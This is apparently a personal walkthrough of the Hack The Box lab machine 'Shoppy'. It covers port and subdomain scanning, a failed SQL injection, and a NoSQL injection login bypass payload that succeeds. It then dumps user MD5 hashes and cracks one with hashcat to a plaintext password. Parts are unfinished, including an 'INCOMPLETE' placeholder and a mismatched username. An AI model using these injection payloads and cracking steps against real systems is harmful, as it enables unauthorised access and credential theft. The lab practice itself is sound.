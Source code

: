 # Shoppy

### Machine IP
```
10.10.11.180
```

### nmap scan
Scanning for open ports and services
```
nmap -sC -sV -Pn -T4 10.10.11.180
```

Results:
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 9e5e8351d99f89ea471a12eb81f922c0 (RSA)
|   256 5857eeeb0650037c8463d7a3415b1ad5 (ECDSA)
|_  256 3e9d0a4290443860b3b62ce9bd9a6754 (ED25519)
80/tcp open  http    nginx 1.23.1
|_http-server-header: nginx/1.23.1
|_http-title:             Shoppy Wait Page        
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Ports 22 (ssh) and 80 (http) are open!


### gobuster scan
Scanning for subdirectories
```
gobuster dir -w wordlists/dirbuster/directory-list-2.3-small.txt -u http://shoppy.htb
```

Results:
```
/images               (Status: 301) [Size: 179] [--> /images/]
/login                (Status: 200) [Size: 1074]
/admin                (Status: 302) [Size: 28] [--> /login]
/assets               (Status: 301) [Size: 179] [--> /assets/]
/css                  (Status: 301) [Size: 173] [--> /css/]
/Login                (Status: 200) [Size: 1074]
/js                   (Status: 301) [Size: 171] [--> /js/]
/fonts                (Status: 301) [Size: 177] [--> /fonts/]
/Admin                (Status: 302) [Size: 28] [--> /login]
```

### ffuf scan
Scanning for subdomains

```
sudo ffuf -c -w /usr/share/SecLists/Discovery/DNS/bitquark-subdomains-top100000.txt -u http://shoppy.htb -H "Host: FUZZ.shoppy.htb" --fc 301
```

Found one subdomain

```
mattermost              [Status: 200, Size: 3122, Words: 141, Lines: 1, Duration: 219ms]
```

### mattermost.shoppy.htb

Adding to /etc/hosts in vim:
```
10.10.11.180	shoppy.htb mattermost.shoppy.htb
```

Seems to be another login form...

### sqlmap
Scanning the login page:
```
sqlmap -r post.txt -p username --level 5 --risk 3 --threads 10
```

Connection times out...ineffective

### Manual sqli

Attempting a login with:
```
Username: admin' or 1=1 --
Password: admin
```

The username portion would resolve to:

```
SELECT * FROM users WHERE username = 'admin' OR 1=1-- ' 
```

...in the case of injection. The password really doesnt matter.


Page taking a long time to load...
Results in a 504 Gateway timeout

Let's try NoSQLi

### Manual NoSQLi

Attempting a login with:
```
Username: admin'||'1==1
Password: cheese
```

The username portion would resolve to:

```
INCOMPLETE
```

...in the case of injection. The password really doesnt matter.

RESULT! We are logged in!


### Exploring the Admin page
Weve been redirected to:
```
http://shoppy.htb/admin
```

Here, we can search for users. So let's search for "admin'||'1==1".

We get an exported json file with the information:
```
[
  {
    "_id": "62db0e93d6d6a999a66ee67a",
    "username": "admin",
    "password": "23c6877d9e2b564ef8b32c3a23de27b2"
  },
  {
    "_id": "62db0e93d6d6a999a66ee67b",
    "username": "josh",
    "password": "6ebcea65320589ca4f2f1ce039975995"
  }
]
```

The passwords are stored as MD5 hashes...let crack them!

### Hashcat

Trying to crack the following hashes with hashcat...
```
23c6877d9e2b564ef8b32c3a23de27b2
6ebcea65320589ca4f2f1ce039975995
```

Command:

```
hashcat -m 0 -a 0 -o cracked_hashes hashes /usr/share/wordlists/rockyou.txt
```

`-m`: type of hash (0 represents MD5)

`-a`: type of attack (0 represents dictionary attack)

```

Complete...
cracked_hashes file:
```
6ebcea65320589ca4f2f1ce039975995:remembermethisway
```

This has appears to be for user "John"
